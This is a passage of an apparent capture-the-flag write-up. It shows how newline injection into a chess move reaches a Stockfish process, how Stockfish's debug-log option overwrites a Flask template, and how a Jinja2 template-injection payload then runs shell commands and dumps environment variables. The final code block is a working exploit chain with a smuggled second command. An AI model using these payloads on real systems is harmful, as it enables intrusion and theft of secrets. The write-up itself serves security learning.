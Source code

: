 ```py
        if not self._stockfish.stdin:
            raise BrokenPipeError()
        if self._stockfish.poll() is None and not self._has_quit_command_been_sent:
            self._stockfish.stdin.write(f"{command}\n")
            self._stockfish.stdin.flush()
            if command == "quit":
                self._has_quit_command_been_sent = True
```
Therefore, by circumventing the move checking, we can control `move_value` and send arbitrary commands to the Stockfish process.

Stockfish documents its supported UCI commands and functionality [here](https://disservin.github.io/stockfish-docs/stockfish-wiki/UCI-&-Commands.html). Of particular note is
```
setoption name Debug Log File value [file path]
```
which causes Stockfish to log all incoming and outbound interactions to the specified file path. We can get a simple proof-of-concept attack by making Stockfish log to the configured Flask static dir:

![image](https://gist.github.com/user-attachments/assets/d2a5ca54-7c35-46d8-abcf-18a8d17792f8)

### Putting it all together

We now have the ability to write to any file and possibly overwrite the contents of that file. 

The source code gives hint to a vulnerable file.

```python
@app.route('/')
def index_route():
    return render_template('index.html')
```

By writing to `/app/templates/index.html` we can get flask to render whatever was in the debug log file as a 
template. 
{% raw %}
Anything between `{{` and `}}` will be evaluated as a template expression.
{% endraw %}
Flask caches templates, so we would want to start a new instance of the flask application, and not view the webpage just yet.

After starting an instance we can send our moves to the server manually using a common [flask ssti payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) to run shell commands.
{% raw %}
```js
const socket = io("https://msfrogofwar3-uuid.be.ax"/);
socket.emit('move', '0000')
socket.emit('move', 'f7f6')
socket.emit('move', 'g7g5')
socket.emit('move', "e6e7\nsetoption name Debug Log File value /app/templates/index.html\n{{ ''.__class__.mro()[1].__subclasses__()[568]('env', shell=True, stdout=-1).communicate() }}\n")
```
{% endraw %}
